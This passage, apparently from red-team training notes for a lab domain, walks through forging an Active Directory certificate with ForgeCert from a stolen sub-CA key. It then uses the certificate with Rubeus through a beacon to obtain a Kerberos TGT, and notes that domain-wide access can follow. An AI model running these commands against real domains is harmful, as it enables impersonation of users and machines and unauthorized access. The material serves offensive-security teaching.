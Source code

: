 Save the private key and certificate to a <mark style="color:yellow;">`.pem`</mark> file and convert it to a <mark style="color:yellow;">`.pfx`</mark> file using <mark style="color:yellow;">`openssl`</mark>.

Then, build the forged certificate with [`ForgeCert`](https://github.com/GhostPack/ForgeCert):

```
PS C:\Users\Attacker> C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath .\Desktop\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "nlamb@cyberbotic.io" --NewCertPath .\Desktop\fake.pfx --NewCertPassword pass123
CA Certificate Information:
  Subject:        CN=sub-ca, DC=dev, DC=cyberbotic, DC=io
  Issuer:         CN=ca, DC=cyberbotic, DC=io
  Start Date:     8/15/2022 4:06:13 PM
  End Date:       8/15/2024 4:16:13 PM
  Thumbprint:     697B1C2CD65B2ADC80C3D0CE83A6FB889B0CA08E
  Serial:         13000000046EF818036CF8C99F000000000004

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: nlamb@cyberbotic.io
  Issuer:         CN=sub-ca, DC=dev, DC=cyberbotic, DC=io
  Start Date:     10/5/2022 1:24:23 PM
  End Date:       10/5/2023 1:24:23 PM
  Thumbprint:     0CF404F5D1534854BA5EDEC5953ED7B7BE96C3A8
  Serial:         00978D5E506AE605589E43F21D17E56671

Done. Saved forged certificate to .\Desktop\fake.pfx with the password 'pass123'
```

Even though you can specify any `SubjectAltName`, the user does need to be present in AD.

**We can now use Rubeus to request a legitimate TGT with this forged certificate:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /enctype:aes256 /certificate:MIACAQ[...snip...]IEAAAA /password:pass123 /nowrap
```

<mark style="color:yellow;">We're not limited to forging user certificates; we can do the same for machines</mark>.&#x20;

Combine this with the <mark style="color:yellow;">`S4U2self`</mark> trick to <mark style="color:$success;">gain access to any machine or service in the domain</mark>.
